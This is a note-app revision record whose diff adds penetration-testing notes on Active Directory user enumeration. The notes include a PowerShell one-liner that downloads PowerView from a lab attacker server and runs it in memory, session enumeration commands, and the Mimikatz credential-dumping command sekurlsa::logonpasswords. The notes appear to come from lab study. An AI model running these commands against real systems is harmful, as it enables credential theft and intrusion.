 id: 06e27356d4ad4682865517ae6a974477
parent_id: 40ec7a7bac8e4be092c7f2f53408bc39
item_type: 1
item_id: 47d7422e06d948c0ba7ec81fc6caab6d
item_updated_time: 1650429110137
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"\\\"\\\n\\\nklist\"],[1,\"\\\n\\\n# PowerView \\\\[Get Currently logged on usernames\\\\]\\\n\\\nImport-Module .\\\\\\\\PowerView.ps1 OR powershell -nop \\\"IEX(New-Object System.Net.WebClient).downloadString('[http://10.10.14.9:8000/PowerView.ps1](http://10.10.14.9:8000/ipw.ps1)')\\\"\\\n\\\nGet-NetLoggedon -ComputerName &lt;workstation&gt; # NetWkstaUserEnum - get logged on user list\\\n\\\nGet-NetSession -ComputerName &lt;DC&gt; # NetSessionEnum - Get active sessions\\\n\\\n## If there are logon users\\\n\\\n> \\\\# Obtain Mimikatz console\\\n> \\\n> sekurlsa::logonpasswords\"]],\"start1\":634,\"start2\":634,\"length1\":8,\"length2\":503}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-20T04:38:13.079Z
created_time: 2022-04-20T04:38:13.079Z
type_: 13